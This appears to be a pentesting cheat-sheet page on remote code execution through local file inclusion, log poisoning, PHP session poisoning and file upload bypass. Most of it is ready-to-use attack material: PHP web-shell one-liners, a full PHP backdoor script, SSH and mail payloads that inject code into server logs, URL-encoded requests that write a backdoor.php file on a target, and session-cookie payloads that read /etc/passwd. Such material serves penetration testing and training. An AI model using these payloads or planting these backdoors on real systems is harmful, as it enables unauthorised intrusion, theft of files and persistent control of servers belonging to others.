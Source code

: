 # Remote Code Execution

<figure><img src="https://media1.giphy.com/media/3orifiiuxBpn9QNGmI/giphy.gif?cid=ecf05e47g2onuj8mriwxuy3196sjdgwva6zofjz73q5s7t3z&#x26;ep=v1_gifs_search&#x26;rid=giphy.gif&#x26;ct=g" alt="" width="375"><figcaption></figcaption></figure>

## Brief

{% hint style="info" %}
If an attacker **gains control** of a target computer through some sort of vulnerability, and they also gain the power to **execute commands on that remote computer** this process is called **Remote Code Execution (RCE)**

* It is one of the cyber-attacks where an attacker can remotely execute commands on someone’s computer
* It usually occurs due to malicious malware downloaded by the host and can happen regardless of the geographic location of the device.

**How is it possible ?**

_With RCE, hackers can edit or destroy important files, steal confidential data, perform DDoS (Distributed Denial of Service) attacks, and compromise the entire system._

**The attacks can be occurred due to:**

* _External user input unchecked_
* _Access control is poor_
* _Authentication measures are not properly done_
* _Buffer overflow._
{% endhint %}

## LFI 2 RCE

### LFI to RCE via Log files

{% hint style="info" %}
_a.k.a : log poisoning attack._

Used to gain remote command execution on the webserver.

The attacker needs to include a malicious payload into services log files such as - Apache, SSH, etc. Then, the LFI vulnerability is used to request the page that includes the malicious payload.

Exploiting this kind of attack depends on various factors, including the design of the web application and server configurations.

For example, a user can include a malicious payload into an apache log file via **User-Agent or other HTTP headers**. In SSH, the user can inject a malicious payload in the **username section**.
{% endhint %}

#### **How To**

**Apache Log Files**

```bash
# /var/log/apache2/access.log
# set inside the user agent or inside a GET parameter a php shell like :
<?php system($_GET['cmd']); ?>
# same for /proc/self/environ
```

**Via Emails**

```bash
# Send a mail to a internal account (user@localhost) containing : 
<?php echo system($_REQUEST["cmd"]); ?> 
# and access to the mail /var/mail/USER&cmd=whoami
```

**With SSH**

```bash
# ssh
ssh <?php system($_GET["cmd"]);?>@ip_address_server
# then look at /var/log/auth.log&cmd=whoami

# ftp
# you can do the same as ssh
# look at /var/log/messages
```

**Some PHP parameters used as user agent :**

```php
# php basic info
<?php phpinfo();?>
<?php system('id'); ?>

# php rce with cmd parameter
<?php system($_GET['cmd']); ?> //in user-agent burp or browser
<?php echo system($_GET['cmd']); ?> //in user-agent burp or browser
<?php system(\$_GET['cmd']); ?> //in user-agent curl 

    # to execute the RCE
     GET /example/exploit.php?command=id HTTP/1.1 

# php one-liner file reader
<?php echo file_get_contents('/path/to/target/file'); ?> 

//PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

### **Staged PHP RCE**

1. Confirm RCE (Using CMD + _whoami_/_id_ command)
2. Create a new **.php** file using `cmd=echo '<?php XXX ?> > backdoor.php'`

**How To :**

```bash
# creates a new php web file with RCE capabilities
cmd=echo '<?php system($_GET['cmd']); ?>' > backdoor.php

# Use & for two URL parameters ex:
http://0.0.0.0/index.php?file=app_access.log&cmd=whoami

http://10.10.49.156/index.php?err=./includes/logs/app_access.log&cmd=echo%20%27%3C?php%20system($_GET[%27cmd%27]);%20?%3E%27%20%3E%20backdoor.php
```

### LFI to RCE via PHP Sessions

**Enumerate** the PHP configuration file, and identify where the PHP sessions files are stored.

Then, we include a **PHP code** into the session and call the file via LFI.

Once located PHP session file storaging location, we can control the value of their session, it can be used to a chain exploit with an LFI to gain remote command execution.

It must stores the value of the username into the session even if you are not logged.

```bash
# Common locations that the PHP stores in sessions info :
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

## **File Upload Bypass 2 RCE**

```bash
# If you can upload a file, just inject the shell payload in it :
<?php system($_GET['c']); ?>
# check Web Vulnerabilities > File Upload Bypass for more techniques
# EXAMPLE : change MIME type to image/png
# access http://example.com/index.php?page=path/to/uploaded/file.php?c=id
# In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf
```

## **PHP sessions**

```bash
# Check if the website use PHP Session (PHPSESSID)
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
# In PHP these sessions are stored into /var/lib/php5/sess\[PHPSESSID]_ files
# /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
#user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
# Set the cookie to 
<?php system('cat /etc/passwd');?>

login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
# Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8
```

### TOP 25 vulnerable parameters

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload
```

### Check also

* Apache log poisoning
* SSH log poisoning

{% embed url="https://www.exploit-db.com/papers/12885" %}
